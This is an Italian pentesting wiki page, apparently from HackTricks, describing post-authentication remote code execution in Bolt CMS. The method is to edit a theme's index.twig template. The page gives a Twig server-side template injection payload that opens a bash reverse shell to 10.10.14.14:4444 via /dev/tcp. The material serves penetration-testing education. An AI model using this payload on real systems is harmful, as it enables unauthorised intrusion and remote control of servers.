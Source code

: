 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Dopo aver effettuato il login come admin (vai a /bot per accedere al prompt di login), puoi ottenere RCE in Bolt CMS:

- Seleziona `Configuration` -> `View Configuration` -> `Main Configuration` oppure vai al percorso URL `/bolt/file-edit/config?file=/bolt/config.yaml`
- Controlla il valore del tema

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Seleziona `File management` -> `View & edit templates`
- Seleziona il tema base trovato nel passo precedente (`base-2021` in questo caso) e seleziona `index.twig`
- Nel mio caso questo si trova nel percorso URL /bolt/file-edit/themes?file=/base-2021/index.twig
- Imposta il tuo payload in questo file tramite [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), come: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- E salva le modifiche

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Pulisci la cache in `Maintenance` -> `Clear the cache`
- Accedi di nuovo alla pagina come utente normale, e il payload dovrebbe essere eseguito

{{#include ../../banners/hacktricks-training.md}}
